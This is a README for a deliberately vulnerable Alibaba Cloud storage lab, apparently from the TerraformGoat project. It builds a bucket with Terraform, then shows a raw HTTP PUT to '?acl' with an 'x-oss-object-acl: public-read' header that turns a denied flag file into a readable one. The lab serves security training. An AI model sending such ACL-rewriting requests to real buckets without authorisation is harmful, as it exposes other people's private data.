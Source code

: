 # Description

English | [中文](./README_CN.md)

This is a script that helps you quickly build ACL read/write scenario for storage bucket objects

Although you may not encounter it in a real situation, but have fun!

## Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/object_acl_writable/ 
```

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

After confirming that there are no problems, type yes and enter to quickly build

![image-20220425190632275](../../../images/image-20220425190632275.png)

Access the /flag.txt of this bucket directly

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

But we can check the ACL permissions of this object via *?acl*

![image-20220425190747906](../../../images/image-20220425190747906.png)

The ACL of the object can then be changed to public-read by the PUT method, and we need to add the *x-oss-object-acl* parameter to the request header

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

Successfully modified the object's ACL, now use the GET method to get

![image-20220425191033750](../../../images/image-20220425191033750.png)

## Destruction Challenge

```bash
terraform destroy
```

Then just type yes and wait for the destruction

![image-20220425191136549](../../../images/image-20220425191136549.png)
